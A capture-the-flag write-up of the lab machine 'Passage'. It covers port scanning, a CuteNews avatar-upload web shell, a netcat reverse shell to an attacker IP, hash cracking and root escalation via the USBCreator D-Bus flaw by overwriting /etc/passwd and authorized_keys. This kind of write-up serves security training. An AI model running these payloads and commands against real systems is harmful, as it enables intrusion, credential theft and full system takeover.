





# Passage
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.206 --min-rate 5000                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 19:01 GMT
Nmap scan report for 10.10.10.206 (10.10.10.206)
Host is up (0.17s latency).
Not shown: 65468 filtered tcp ports (no-response), 65 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.64 seconds
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.206 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 19:05 GMT
Nmap scan report for 10.10.10.206 (10.10.10.206)
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_  256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.01 seconds

```

- Web server 


- The message is:
```
Due to unusually large amounts of traffic, we have implemented Fail2Ban on our website. Let it be known that excessive access to our server will be met with a two minute ban on your IP Address. While we do not wish to lock out our legitimate users, this decision is necessary in order to ensure a safe viewing experience. Please proceed with caution as you browse through our extensive news selection.
```

- So I skip directory bruteforcing
  - We can collect all possible usernames from the articles
  - And we see `RSS` button on main page
    - If we click it, we are navigated to `RSS Feed`



- If we remove `rss.php`, we are navigated to login page of `CuteNews 2.1.2`


- We have a hit in `searchsploit`
  - https://www.exploit-db.com/exploits/48800
  - It looks like it's and `RCE` via user `avatar`


- So based on the exploit, we have to upload an user `avatar` with a webshell
  - Let's register



- Now we have to upload the avatar
  - If try to upload `shell.php`, I receive an error


- Let's use image file and add comments to it
  - Use `png`, since `jpg` didn't work for me
```
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>' avatar.png 
Warning: [minor] Text/EXIF chunk(s) found after PNG IDAT (fixed) - avatar.png
    1 image files updated
```

- I'll turn intercept in `Burp` and modify the extension to `php` and forward the request





- We have `rce`



- Let's get reverse shell
  - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.4 6666 >/tmp/f` - url-encoded


## User #1
- Inside `/var/www/html/CuteNews/` we have `cdata` folder with `users` folder
```
www-data@passage:/var/www/html/CuteNews/cdata$ ls -lha
total 112K
drwxrwxrwx 11 www-data www-data 4.0K Nov  1 08:51 .
drwxrwxr-x  9 www-data www-data 4.0K Jun 18  2020 ..
-rw-rw-rw-  1 www-data www-data 2.1K Aug 20  2018 Default.tpl
-rw-rw-rw-  1 www-data www-data 1.7K Aug 20  2018 Headlines.tpl
drwxrwxrwx  2 www-data www-data 4.0K Aug 20  2018 archives
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 auto_archive.db.php
drwxrwxrwx  2 www-data www-data 4.0K Jun 18  2020 backup
drwxrwxrwx  2 www-data www-data 4.0K Aug 31  2020 btree
drwxrwxrwx  2 www-data www-data 4.0K Aug 20  2018 cache
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 cat.num.php
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 category.db.php
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 comments.txt
-rwxr-xr-x  1 www-data www-data  33K Jun 18  2020 conf.php
-rwxrwxrwx  1 www-data www-data 1.7K Aug 20  2018 config.php
-rwxrwxrwx  1 www-data www-data   15 Aug 20  2018 confirmations.php
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 csrf.php
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 flood.db.php
-rw-r--r--  1 www-data www-data   26 Jun 18  2020 flood.txt
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 idnews.db.php
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 installed.mark
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 ipban.db.php
drwxrwxrwx  2 www-data www-data 4.0K Jun 18  2020 log
drwxrwxrwx  2 www-data www-data 4.0K Aug 31  2020 news
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 news.txt
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 newsid.txt
drwxrwxrwx  2 www-data www-data 4.0K Jun 18  2020 plugins
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 postponed_news.txt
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 replaces.php
-rw-rw-rw-  1 www-data www-data  564 Aug 20  2018 rss.tpl
-rwxrwxrwx  1 www-data www-data    0 Aug 20  2018 rss_config.php
drwxrwxrwx  2 www-data www-data 4.0K Aug 20  2018 template
-rw-rw-rw-  1 www-data www-data    0 Aug 20  2018 unapproved_news.txt
drwxrwxrwx  2 www-data www-data 4.0K Nov  1 09:07 users
-rwxrwxrwx  1 www-data www-data   58 Aug 20  2018 users.db.php
-rw-r--r--  1 www-data www-data   63 Nov  1 08:51 users.txt

```

- It contains files which looks like `user` files
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls -lha
total 100K
drwxrwxrwx  2 www-data www-data 4.0K Nov  1 09:07 .
drwxrwxrwx 11 www-data www-data 4.0K Nov  1 08:51 ..
-rwxr-xr-x  1 www-data www-data  133 Jun 18  2020 09.php
-rw-r--r--  1 www-data www-data  109 Aug 30  2020 0a.php
-rw-r--r--  1 www-data www-data  129 Nov  1 08:51 0c.php
-rw-r--r--  1 www-data www-data  125 Aug 30  2020 16.php
-rwxr-xr-x  1 www-data www-data  437 Jun 18  2020 21.php
-rw-r--r--  1 www-data www-data  109 Aug 31  2020 32.php
-rw-r--r--  1 www-data www-data  581 Nov  1 09:07 46.php
-rwxr-xr-x  1 www-data www-data  113 Jun 18  2020 52.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18  2020 5d.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18  2020 66.php
-rw-r--r--  1 www-data www-data  133 Aug 31  2020 6e.php
-rwxr-xr-x  1 www-data www-data  117 Jun 18  2020 77.php
-rwxr-xr-x  1 www-data www-data  481 Jun 18  2020 7a.php
-rwxr-xr-x  1 www-data www-data  109 Jun 18  2020 8f.php
-rwxr-xr-x  1 www-data www-data  129 Jun 18  2020 97.php
-rwxr-xr-x  1 www-data www-data  489 Jun 18  2020 b0.php
-rw-r--r--  1 www-data www-data  109 Nov  1 08:51 b5.php
-rwxr-xr-x  1 www-data www-data  481 Jun 18  2020 c8.php
-rwxr-xr-x  1 www-data www-data   45 Jun 18  2020 d4.php
-rwxr-xr-x  1 www-data www-data   45 Jun 18  2020 d5.php
-rw-r--r--  1 www-data www-data 1.2K Aug 31  2020 d6.php
-rwxr-xr-x  1 www-data www-data  113 Jun 18  2020 fc.php
-rw-r--r--  1 www-data www-data 3.8K Aug 30  2020 lines
-rw-r--r--  1 www-data www-data    0 Jun 18  2020 users.txt
```

- File content
```
ww-data@passage:/var/www/html/CuteNews/cdata/users$ cat 0a.php 
<?php die('Direct call - access denied'); ?>
YToxOntzOjI6ImlkIjthOjE6e2k6MTU5ODgyOTgzMztzOjY6ImVncmU1NSI7fX0=
```

- If we check source code, it looks those files were generated using first 2 chars of the `md5sum` of the username
  - `core/db/coreflat.php`
```
<SNIP>
function db_user_by_name($name, $index = FALSE)
{
    $uex = array();

    // Get from php-serialized array
    $cu = cn_touch_get(SERVDIR. path_construct('cdata','users',substr(md5($name), 0, 2).'.php'));

    // Check at index
    if ($index)
    {
        $rd = fopen(cn_touch(SERVDIR . path_construct('cdata', 'users', 'users.txt')), 'r');
        while ($a = fgets($rd))
        {
            list($uid) = explode(':', 2);
            $uex[base_convert($uid, 36, 10)] = TRUE;
        }
        fclose($rd);

        // user exists, but not in index
        if (isset($cu['name'][$name]) && !isset($uex[ $cu['name'][$name]['id'] ]))
        {
            return NULL;
        }
    }
<SNIP>
```

- We know that this box has 2 users
  - Let's check their files
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ ls /home
nadav  paul
```
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ echo -n nadav | md5sum
41e6ffead3de2412a078b075e053fdc0  -
www-data@passage:/var/www/html/CuteNews/cdata/users$ echo -n paul | md5sum
6c63212ab48e8401eaf6b59b95d816a9  -
```

- But there are no files with those ids
  - The content of the file looked like `base64` let's try to decode it
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ echo "YToxOntzOjU6ImVtYWlsIjthOjE6e3M6MTY6InBhdWxAcGFzc2FnZS5odGIiO3M6MTA6InBhdWwtY29sZXMiO319" | base64 -d
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
```
- Looks like it's user information
  - Let's decode all files
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ for file in `ls *.php`; do (cat $file | grep -v 'php' | base64 -d | grep pass); done
a:1:{s:5:"email";a:1:{s:16:"paul@passage.htb";s:10:"paul-coles";}}
a:1:{s:4:"name";a:1:{s:5:"admin";a:8:{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nadav@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:7:"pentest";a:9:{s:2:"id";s:10:"1698853880";s:4:"name";s:7:"pentest";s:3:"acl";s:1:"4";s:5:"email";s:16:"pentest@mail.htb";s:4:"nick";s:7:"pentest";s:4:"pass";s:64:"01ba02d06a6a2c7997f53541352c08af02b64272267df3ce1b7c175816041c25";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:6:"avatar";s:25:"avatar_pentest_avatar.php";s:6:"e-hide";s:0:"";}}}
a:1:{s:5:"email";a:1:{s:17:"nadav@passage.htb";s:5:"admin";}}
a:1:{s:4:"name";a:1:{s:9:"sid-meier";a:9:{s:2:"id";s:10:"1592483281";s:4:"name";s:9:"sid-meier";s:3:"acl";s:1:"3";s:5:"email";s:15:"sid@example.com";s:4:"nick";s:9:"Sid Meier";s:4:"pass";s:64:"4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88";s:3:"lts";s:10:"1592485645";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca";s:3:"lts";s:10:"1592487096";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"3";}}}
a:1:{s:4:"name";a:2:{s:6:"egre55";a:11:{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:3:"lts";s:10:"1598906881";s:3:"ban";s:1:"0";s:6:"avatar";s:26:"avatar_egre55_ykxnacpt.php";s:6:"e-hide";s:0:"";}s:6:"hacker";a:11:{s:2:"id";s:10:"1598910896";s:4:"name";s:6:"hacker";s:3:"acl";s:1:"4";s:5:"email";s:20:"hacker@hacker.hacker";s:4:"nick";s:6:"hacker";s:4:"pass";s:64:"e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9";s:3:"lts";s:10:"1598910911";s:3:"ban";s:1:"0";s:4:"more";s:60:"YToyOntzOjQ6InNpdGUiO3M6MDoiIjtzOjU6ImFib3V0IjtzOjA6IiI7fQ==";s:6:"avatar";s:26:"avatar_hacker_jpyoyskt.php";s:6:"e-hide";s:0:"";}}}
```

- Now we have
```
nadav:7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e
sid-meier:4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
paul-coles:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
kim-swift:f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
egre55:4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
hacker:e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9
```

- I'll start `hashcat`
```
└─$ hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt --user 
hashcat (v6.2.6) starting
<SNIP>
e7d3685715939842749cc27b38d0ccb9706d4d14a5304ef9eee093780eab5df9:hacker
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
Approaching final keyspace - workload adjusted.      
<SNIP>
```
```
paul-coles: atlanta1
hacker: hacker
```

- Let's try to `su`
```
www-data@passage:/var/www/html/CuteNews/cdata/users$ su - paul
Password: 
paul@passage:~$ 
```
## User #2
- `.ssh` contained both private and public keys
```
paul@passage:~$ ls -lha .ssh/
total 24K
drwxr-xr-x  2 paul paul 4.0K Jul 21  2020 .
drwxr-x--- 16 paul paul 4.0K Sep  2  2020 ..
-rw-r--r--  1 paul paul  395 Jul 21  2020 authorized_keys
-rw-------  1 paul paul 1.7K Jul 21  2020 id_rsa
-rw-r--r--  1 paul paul  395 Jul 21  2020 id_rsa.pub
-rw-r--r--  1 paul paul 1.3K Jul 21  2020 known_hosts

```
- If we check public key, it shows `nadav`
```
paul@passage:~/.ssh$ cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```

- Using the private key to `ssh` as `nadav` works
```
paul@passage:~/.ssh$ ssh nadav@localhost -i id_rsa
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
nadav@passage:~$ 
```
## Root
- `groups`
  - No password, so can't `sudo -l`
```
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
nadav@passage:~$ 

```

- `nadav` has `.viminfo` file
  - `If you exit Vim and later start it again, you would normally lose a lot of information. The viminfo file can be used to remember that information, which enables you to continue where you left off.`
  - https://vimhelp.org/starting.txt.html#viminfo
```
nadav@passage:~$ cat .viminfo 
# This viminfo file was generated by Vim 7.4.
<SNIP>
# File marks:
'0  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
'1  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# Jumplist (newest first):
-'  12  7  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  1  0  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  2  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
-'  1  0  /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf

# History of marks within files (newest to oldest):

> /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
        "       12      7

> /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
        "       2       0
        .       2       0
        +       2       0
```

- Both files owned by `root`
```
nadav@passage:~$ ls -l /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf  /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-rw-r--r-- 1 root root 766 Apr 29  2015 /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
-rw-r--r-- 1 root root  65 Jan 15  2019 /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
```
- `51-ubuntu-admin.conf` is [Polkit](https://en.wikipedia.org/wiki/Polkit) config file
  - The configuration specifies that `sudo` and `admin` groups can invoke privileged processes with a password
  - https://www.freedesktop.org/software/polkit/docs/0.105/pklocalauthority.8.html
```
nadav@passage:~$ cat /etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin
```

- `com.ubuntu.USBCreator.conf`
```
nadav@passage:~$ cat /etc/dbus-1/system.d/com.ubuntu.USBCreator.conf
<!DOCTYPE busconfig PUBLIC
 "-//freedesktop//DTD D-BUS Bus Configuration 1.0//EN"
 "http://www.freedesktop.org/standards/dbus/1.0/busconfig.dtd">
<busconfig>

  <!-- Only root can own the service -->
  <policy user="root">
    <allow own="com.ubuntu.USBCreator"/>
  </policy>

  <!-- Allow anyone to invoke methods (further constrained by
       PolicyKit privileges -->
  <policy context="default">
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="com.ubuntu.USBCreator"/>
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="org.freedesktop.DBus.Introspectable"/>
    <allow send_destination="com.ubuntu.USBCreator" 
           send_interface="org.freedesktop.DBus.Properties"/>
  </policy>

</busconfig>
```

- There is a [blog](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)
  - It exploits [D-Bus](https://www.freedesktop.org/wiki/Software/dbus/)
  - Summary
```
A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root - without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.
```

- We can copy a `root` flag
  - We have to copy a file to a file that doesn't exist
```
```
nadav@passage:/dev/shm$ ls -lha
total 168K
drwxrwxrwt  2 root  root   160 Nov  1 10:21 .
drwxr-xr-x 18 root  root  3.8K Oct 31 11:24 ..
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-1636705118
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3691360381
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3862711046
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3905698949
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-664920523
```
```
```
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /dev/shm/flag.txt true
()
```
```
nadav@passage:/dev/shm$ ls -lha
total 168K
drwxrwxrwt  2 root  root   160 Nov  1 10:21 .
drwxr-xr-x 18 root  root  3.8K Oct 31 11:24 ..
-rw-r--r--  1 root  root    33 Nov  1 10:21 flag.txt
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-1636705118
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3691360381
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3862711046
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-3905698949
-rwx------  1 nadav nadav  65M Oct 31 11:24 pulse-shm-664920523
```

- To get a shell we can overwrite `/etc/passwd`, add our public key to `authorized_keys` and so on
```
nadav@passage:/dev/shm$ cp /etc/passwd passwd
nadav@passage:/dev/shm$ openssl passwd -1 pentest
$1$ApmuYR5C$85SftWXmqXbDoZLqhrmD71
nadav@passage:/dev/shm$ echo 'pentest:$1$ApmuYR5C$85SftWXmqXbDoZLqhrmD71:0:0:pentest:/root:/bin/bash' >> passwd 
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/passwd /etc/passwd true
()
nadav@passage:/dev/shm$ tail -2 /etc/passwd
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
pentest:$1$ApmuYR5C$85SftWXmqXbDoZLqhrmD71:0:0:pentest:/root:/bin/bash
nadav@passage:/dev/shm$ su - pentest
Password: 
root@passage:~# 
```
```
nadav@passage:/dev/shm$ echo "ssh-rsa AAAAB3<SNIP> kali@kali" > authorized_keys
nadav@passage:/dev/shm$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/authorized_keys /root/.ssh/authorized_keys true
()
```
```
└─$ ssh root@10.10.10.206                                                   
Warning: Permanently added '10.10.10.206' (ED25519) to the list of known hosts.
